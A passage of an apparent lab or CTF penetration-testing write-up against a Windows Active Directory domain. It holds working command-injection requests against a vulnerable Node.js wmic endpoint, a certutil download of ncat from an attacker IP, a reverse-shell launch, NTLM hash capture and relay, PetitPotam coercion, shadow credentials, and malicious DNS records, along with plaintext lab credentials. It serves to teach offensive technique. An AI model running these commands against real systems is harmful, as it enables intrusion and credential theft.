








As usual I will start by performing a full scan of all the open TCP services on this machine:

```bash
PORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2026-04-02T07:40:32+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: EU-IFRIT
|   NetBIOS_Domain_Name: EU-IFRIT
|   NetBIOS_Computer_Name: DEV05
|   DNS_Domain_Name: eu-ifrit.vl
|   DNS_Computer_Name: DEV05.eu-ifrit.vl
|   DNS_Tree_Name: eu-ifrit.vl
|   Product_Version: 10.0.19041
|_  System_Time: 2026-04-02T07:39:52+00:00
| ssl-cert: Subject: commonName=DEV05.eu-ifrit.vl
| Issuer: commonName=DEV05.eu-ifrit.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-04-01T02:04:00
| Not valid after:  2026-10-01T02:04:00
| MD5:     5093 b425 e975 1ce7 5913 a626 86ab 25e1
| SHA-1:   52de d66d 2735 4828 4eda d0ed 4f5b 9879 4434 3f0f
| SHA-256: 1e65 4eb5 c5b4 6bc2 dd8c df20 74ab e1be 95c8 2877 fd02 31cd d8ea 9574 5cc4 a2c3
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQREEfD44+g71H0a6K8sGywzANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFERVYwNS5ldS1pZnJpdC52bDAeFw0yNjA0MDEwMjA0MDBaFw0y
| NjEwMDEwMjA0MDBaMBwxGjAYBgNVBAMTEURFVjA1LmV1LWlmcml0LnZsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA71gvJCtY8IPaExwT1R8THIvClLde
| DwTBsguPgifa34MsTSFgwoC1UlxEbTTgFEdZPHEmFWkwF8/7yeSihC5XhJWlboUC
| dS5bBAf94KRlutFS/YcPEbXl/yzbVGMxkoCw2dsbNivxF/1mjUPjRMNAYliw2atu
| dg/ZpgWIplNgVJxQkAF/rs99OLvvwAq4nkZPNVt/f9CVtxPjYBMoPRR38toytBvH
| 3SzXsZlsilYCiwStzu14FRRikOX2b/SH2rdWmACrs5LGP3kK4SZmV29FliGeNbvv
| tMAY+3ecmMvQJyKHVhdx7hRFHszSJDFuGRXAdLKgRIHSJpDIyaiwg9Wx6QIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBAEu/begcEBjROQBRCw4/XjSQstPUarNFP8+8okin/6q7HJ+Jp4pM
| oElqL80GIwwCry0426s+GeEK2jxFyolxosSIeBIM/FWYGUDKusCy9J0pDoWoUc1A
| Awqhl58wMpdQMdM+ZCGaPp/VGuhBujZ/i5mNvWqWNYqk4H+0P11A9INc1QiwhGZL
| 5HiOMDOZ1z5+mVSOzvwcCNCdXeMMivV+tMI8Cf0DnnMrQq14O3MAca2sQfq16CT2
| 6AUUeEvtTN5RF//i4IUaLpqrQs9o6SYffburBgVYm1EBgN2qT1rXF+RjLptosetz
| T7Zu9O0ftuY3zhDDoFNwPjowRJ58ZMwPl5o=
|_-----END CERTIFICATE-----
5040/tcp  open  unknown       syn-ack ttl 64
13300/tcp open  http          syn-ack ttl 64 Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49684/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49693/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=4/2%OT=135%CT=%CU=%PV=Y%G=N%TM=69CE1D70%P=x86_64-pc-linux-gnu)
SEQ(SP=F9%GCD=2%ISR=10F%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=FA%GCD=1%ISR=111%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)


```

# GIT

Loggin into the GitLab with the Jack credentials I can see there is a custom domain script running in Node JS?



And I can see from the code there are some hard-coded credentials and what it does it take my query and get's me a possible command execution via wmic(OBS: no sensitization is applied and the input is passed directly to the back-end):

```
const express = require('express');
const { exec } = require('child_process');
const bodyParser = require('body-parser');
const basicAuth = require('express-basic-auth');

const app = express();
const port = 13300;

app.use(bodyParser.json());

app.use(basicAuth({
    users: { 'dev': 'dev-5381' },
    challenge: true,
    unauthorizedResponse: (req) => 'Unauthorized'
}));

app.get('/api/info', (req, res) => {
    exec('systeminfo', (error, stdout, stderr) => {
        if (error) {
            res.status(500).send(`Error: ${stderr}`);
            return;
        }
        res.send(stdout);
    });
});

app.post('/api/query', (req, res) => {
    const { query } = req.body;
    exec(`wmic ${query}`, (error, stdout, stderr) => {
        if (error) {
            res.status(500).send(`Error: ${stderr}`);
            return;
        }
        res.send(stdout);
    });
});

app.listen(port, '0.0.0.0', () => {
    console.log(`Server running at http://0.0.0.0:${port}/`);
```

Now if I use the credentials i can see I am inside:

```bash
─$ curl -u dev:dev-5381 http://172.16.41.40:13300/api/info

Host Name:                 DEV05
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19045 N/A Build 19045
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          admin
Registered Organization:   
Product ID:                00330-80112-18556-AA013
Original Install Date:     7/7/2024, 3:56:34 AM
System Boot Time:          3/31/2026, 7:44:07 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware20,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              VMware, Inc. VMW201.00V.24504846.B64.2501180339, 1/18/2025
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 1,933 MB
Virtual Memory: Max Size:  4,955 MB
Virtual Memory: Available: 2,741 MB
Virtual Memory: In Use:    2,214 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    eu-ifrit.vl
Logon Server:              \\DC03
Hotfix(s):                 12 Hotfix(s) Installed.
                           [01]: KB5039893
                           [02]: KB5039867
                           [03]: KB5011048
                           [04]: KB5015684
                           [05]: KB5020683
                           [06]: KB5026037
                           [07]: KB5033052
                           [08]: KB5040427
                           [09]: KB5014032
                           [10]: KB5016705
                           [11]: KB5037995
                           [12]: KB5039336
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Internal
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 172.16.41.40
                                 [02]: fe80::24b1:467b:d158:faa
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

```

And this is how you make a request to here:

```bash
──(user㉿kali-almi)-[~/Downloads/ifrit]
└─$ curl -X POST -H 'Content-Type: application/json' -u dev:dev-5381 http://172.16.41.40:13300/api/query --data '{"query": "bios get serialnumber"}'
SerialNumber                                            
VMware-42 14 1a 2c 24 d7 0e c9-ba b9 cf 0f 15 a0 83 bb 
```

And I have a RCE via command injection:

```bash
└─$ curl -X POST -H 'Content-Type: application/json' -u dev:dev-5381 http://172.16.41.40:13300/api/query --data '{"query": "bios get serialnumber & whoami"}'
SerialNumber                                            
VMware-42 14 1a 2c 24 d7 0e c9-ba b9 cf 0f 15 a0 83 bb  

eu-ifrit\jack.smith
                    
```

It is clear i can't get back to my IP rather than i need to go via the other VDI:  


Now it is clear an issue of AMSI/Defender becase my ping can reach me:

```bash
<pre><font color="#50FA7B">└─</font><font color="#CAA8FA"><b>$</b></font> <font color="#8BE8FD">curl</font> <font color="#50FA7B">-X</font> POST <font color="#50FA7B">-H</font> <font color="#F1FA8C">&apos;Content-Type: application/json&apos;</font> <font color="#50FA7B">-u</font> dev:dev-5381 http://172.16.41.40:13300/api/query <font color="#50FA7B">--data</font> <font color="#F1FA8C">&apos;</font><font color="#CAA8FA"><b>{</b></font><font color="#F1FA8C">&quot;query&quot;: &quot;bios get serialnumber &amp; ping 10.10.14.9&quot;</font><font color="#CAA8FA"><b>}</b></font><font color="#F1FA8C">&apos;</font>
SerialNumber                                            
VMware-42 14 1a 2c 24 d7 0e c9-ba b9 cf 0f 15 a0 83 bb  


Pinging 10.10.14.9 with 32 bytes of data:
Reply from 10.10.14.9: bytes=32 time=24ms TTL=62
Reply from 10.10.14.9: bytes=32 time=25ms TTL=62
Reply from 10.10.14.9: bytes=32 time=25ms TTL=62
Reply from 10.10.14.9: bytes=32 time=25ms TTL=62

Ping statistics for 10.10.14.9:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 24ms, Maximum = 25ms, Average = 24ms
</pre>
```

I will upload ncat.exe:

```bash
─$ curl -X POST -H 'Content-Type: application/json' -u dev:dev-5381 http://172.16.41.40:13300/api/query \
--data '{"query": "os & certutil.exe -urlcache -split -f http://10.10.14.9/ncat.exe C:\\Windows\\Tasks\\ncat.exe"}'
BootDevice               BuildNumber  BuildType            Caption                   CodeSet  CountryCode  CreationClassName      CSCreationClassName   CSDVersion  CSName  CurrentTimeZone  DataExecutionPrevention_32BitApplications  DataExecutionPrevention_Available  DataExecutionPrevention_Drivers  DataExecutionPrevention_SupportPolicy  Debug  Description  Distributed  EncryptionLevel  ForegroundApplicationBoost  FreePhysicalMemory  FreeSpaceInPagingFiles  FreeVirtualMemory  InstallDate                LargeSystemCache  LastBootUpTime             LocalDateTime              Locale  Manufacturer           MaxNumberOfProcesses  MaxProcessMemorySize  MUILanguages  Name                                                              NumberOfLicensedUsers  NumberOfProcesses  NumberOfUsers  OperatingSystemSKU  Organization  OSArchitecture  OSLanguage  OSProductSuite  OSType  OtherTypeDescription  PAEEnabled  PlusProductID  PlusVersionNumber  PortableOperatingSystem  Primary  ProductType  RegisteredUser  SerialNumber             ServicePackMajorVersion  ServicePackMinorVersion  SizeStoredInPagingFiles  Status  SuiteMask  SystemDevice             SystemDirectory      SystemDrive  TotalSwapSpaceSize  TotalVirtualMemorySize  TotalVisibleMemorySize  Version     WindowsDirectory  
\Device\HarddiskVolume1  19045        Multiprocessor Free  Microsoft Windows 10 Pro  1252     1            Win32_OperatingSystem  Win32_ComputerSystem              DEV05   -420             TRUE                                       TRUE                               TRUE                             2                                      FALSE               FALSE        256              2                           1955916             870060                  2802484            20240707035634.000000-420                    20260331194407.500000-420  20260401075040.618000-420  0409    Microsoft Corporation  4294967295            137438953344          {"en-US"}     Microsoft Windows 10 Pro|C:\Windows|\Device\Harddisk0\Partition3                         137                7              48                                64-bit          1033        256             18                                                                          FALSE                    TRUE     1            admin           00330-80112-18556-AA013  0                        0                        880844                   OK      272        \Device\HarddiskVolume3  C:\Windows\system32  C:                               5074176                 4193332                 10.0.19045  C:\Windows        

****  Online  ****
  000000  ...
  197200
CertUtil: -URLCache command completed successfully.
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/ifrit]
└─$ curl -X POST -H 'Content-Type: application/json' -u dev:dev-5381 http://172.16.41.40:13300/api/query \
--data '{"query": "bios get serialnumber & dir C:\\Windows\\Tasks"}'                                          
SerialNumber                                            
VMware-42 14 1a 2c 24 d7 0e c9-ba b9 cf 0f 15 a0 83 bb  

 Volume in drive C has no label.
 Volume Serial Number is D0B0-9416

 Directory of C:\Windows\Tasks

04/01/2026  07:50 AM    <DIR>          .
04/01/2026  07:50 AM    <DIR>          ..
04/01/2026  07:50 AM         1,667,584 ncat.exe
               1 File(s)      1,667,584 bytes
               2 Dir(s)     862,785,536 bytes free
                                                               
```

And after several tries I notices that the local firewall was blockig higher ports:

```bash
──(user㉿kali-almi)-[~/Downloads/ifrit]
└─$ curl -X POST -H 'Content-Type: application/json' -u dev:dev-5381 http://172.16.41.40:13300/api/query \
--data '{"query": "bios get serialnumber & C:\\Windows\\Tasks\\RevShell.exe 10.10.14.9 443 powershell"}'

```



As you see this user doesn't seems possessing strange permissions in AD rather than being part of the IT group, which could definitely give more access to extra stuff?  


# Privilege Escalation

Now I need to find a way to escalate to admin and I see that there might be autologin credentials based on this tool?

```bash
PS C:\_install> ls
ls


    Directory: C:\_install


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         7/14/2024   1:56 AM         441224 Autologon64.exe                                                      


PS C:\_install> cd   

```

I don't see anything in this system so far so I will try to perform some authentication coercion:

```bash
!] Error starting TCP server on port 80, check permissions or other servers running.
[SMB] NTLMv1-SSP Client   : 10.10.110.3
[SMB] NTLMv1-SSP Username : EU-IFRIT\Jack.Smith
[SMB] NTLMv1-SSP Hash     : Jack.Smith::EU-IFRIT:10CD1B269C131F7100000000000000000000000000000000:7F51202C7BAB9FDD4370BEEB295E6B477A7CC5B3779C0A34:b20ebd44192520e9

```

But the password cannot be cracked so my idea is to relay it to all the devices in this subnet and I can see some connections:

```bash
ntlmrelayx> socks
Protocol  Target         Username             AdminStatus  Port  ID 
--------  -------------  -------------------  -----------  ----  ---
SMB       172.16.41.225  EU-IFRIT/JACK.SMITH  FALSE        445   1  
SMB       172.16.41.250  EU-IFRIT/JACK.SMITH  FALSE        445   2  
SMB       172.16.41.210  EU-IFRIT/JACK.SMITH  FALSE        445   3  
ntlmrelayx> 


```

But I went back to AD and I see that this machine has control over several machines?  


And this machines can controll the SQL01?  


So here I make the callback to get the machine computer object callback redirected to the DC:

```bash
─$ netexec smb 172.16.41.40 -u Annette.King -p 'PenEuIfrit527#' -M coerce_plus -o LISTENER=10.10.14.9
SMB         172.16.41.40    445    DEV05            [*] Windows 10 / Server 2019 Build 19041 x64 (name:DEV05) (domain:eu-ifrit.vl) (signing:False) (SMBv1:None)
SMB         172.16.41.40    445    DEV05            [+] eu-ifrit.vl\Annette.King:PenEuIfrit527# 
COERCE_PLUS 172.16.41.40    445    DEV05            VULNERABLE, PetitPotam
COERCE_PLUS 172.16.41.40    445    DEV05            Exploit Success, efsrpc\EfsRpcAddUsersToFile
COERCE_PLUS 172.16.41.40    445    DEV05            VULNERABLE, PrinterBug
COERCE_PLUS 172.16.41.40    445    DEV05            VULNERABLE, PrinterBug
COERCE_PLUS 172.16.41.40    445    DEV05            VULNERABLE, MSEven

```

And here I obtain the callback:

```bash
─$ impacket-ntlmrelayx -t ldap://172.16.41.14 -smb2support -i --remove-mic
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client WINRMS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Setting up WinRM (HTTP) Server on port 5985
[*] Setting up WinRMS (HTTPS) Server on port 5986
[*] Setting up RPC Server on port 135
[*] Multirelay disabled

[*] Servers started, waiting for connections
[*] (SMB): Received connection from 10.10.110.3, attacking target ldap://172.16.41.14
[*] (SMB): Authenticating connection from EU-IFRIT/DEV05$@10.10.110.3 against ldap://172.16.41.14 SUCCEED [1]
[*] ldap://EU-IFRIT/DEV05$@172.16.41.14 [1] -> Started interactive Ldap shell via TCP on 127.0.0.1:11000 as EU-IFRIT/DEV05$
[*] All targets processed!
[*] (SMB): Connection from 10.10.110.3 controlled, but there are no more targets left!
[*] All targets processed!
[*] (SMB): Connection from 10.10.110.3 controlled, but there are no more targets left!

```

Now I can either perform a Shadow credentials or RBCD attack, now for the RBCD usually you would add a new computer object(since a SPN is required) but the MAQ is equal to zero:

```bash
└─$ netexec ldap 172.16.41.14 -u Annette.King -p 'PenEuIfrit527#' -M maq                         
LDAP        172.16.41.14    389    DC03             [*] Windows Server 2022 Build 20348 (name:DC03) (domain:eu-ifrit.vl) (signing:None) (channel binding:No TLS cert) 
LDAP        172.16.41.14    389    DC03             [+] eu-ifrit.vl\Annette.King:PenEuIfrit527# 
MAQ         172.16.41.14    389    DC03             [*] Getting the MachineAccountQuota
MAQ         172.16.41.14    389    DC03             MachineAccountQuota: 0
                                                                                                                                                                                                              
┌──(user㉿kali-almi)-[~]

```

Which means I need to do a Shadow credentials attack instead:

```bash
# set_shadow_creds RAS50014$
Found Target DN: CN=RAS50014,OU=ras,DC=eu-ifrit,DC=vl
Target SID: S-1-5-21-815464091-3988217837-1862656938-1325

KeyCredential generated with DeviceID: 3f8627e9-1b17-467b-ba4e-32be34064fab
Shadow credentials successfully added!
Saved PFX (#PKCS12) certificate & key at path: xzh5ii9e.pfx
Must be used with password: IZuPyDHiuWwYzoNfqnDe

# 


```

Now unfortunately seems like the PMKINIT is not active on the current DC(this is a requirement for the attack to work):

```bash
└─$ python3 ../Tools/PKINITtools/gettgtpkinit.py -dc-ip 172.16.41.14 -cert-pfx xzh5ii9e.pfx -pfx-pass IZuPyDHiuWwYzoNfqnDe 'EU-IFRIT.VL/RAS50014$' 'RAS50014$.ccache'
2026-04-02 11:46:11,529 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2026-04-02 11:46:11,561 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
Traceback (most recent call last):
  File "/home/user/Downloads/ifrit/../Tools/PKINITtools/gettgtpkinit.py", line 349, in <module>
    main()
    ~~~~^^
  File "/home/user/Downloads/ifrit/../Tools/PKINITtools/gettgtpkinit.py", line 345, in main
    amain(args)
    ~~~~~^^^^^^
  File "/home/user/Downloads/ifrit/../Tools/PKINITtools/gettgtpkinit.py", line 315, in amain
    res = sock.sendrecv(req)
  File "/usr/lib/python3/dist-packages/minikerberos/network/clientsocket.py", line 85, in sendrecv
    raise KerberosError(krb_message)
minikerberos.protocol.errors.KerberosError:  Error Name: KDC_ERR_PADATA_TYPE_NOSUPP Detail: "KDC has no support for PADATA type (pre-authentication data)" 

```

Now this is a big pain in the ass for this reason I will perforn the "uninteded" way of performing a NTLM reflective attack where I will redirect back the DEV05 coercion to itself and dump the SAM in one go!

I add a local DNS record that points back to my machine listenerer:

```bash
└─$ python3 ../Tools/krbrelayx/dnstool.py -u 'EU-IFRIT.VL\Annette.King' -p 'PenEuIfrit527#' 172.16.41.14 -a add -r dev051UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 10.10.14.9     
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully

```

Now i can perform an coercion to the malicous DNS records via PetitPotam:

```bash
└─$ python3 ../Tools/PetitPotam/PetitPotam.py -u Annette.King -p 'PenEuIfrit527#' -d eu-ifrit.vl dev051UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA DEV05.EU-IFRIT.VL
/home/user/Downloads/ifrit/../Tools/PetitPotam/PetitPotam.py:23: SyntaxWarning: invalid escape sequence '\ '
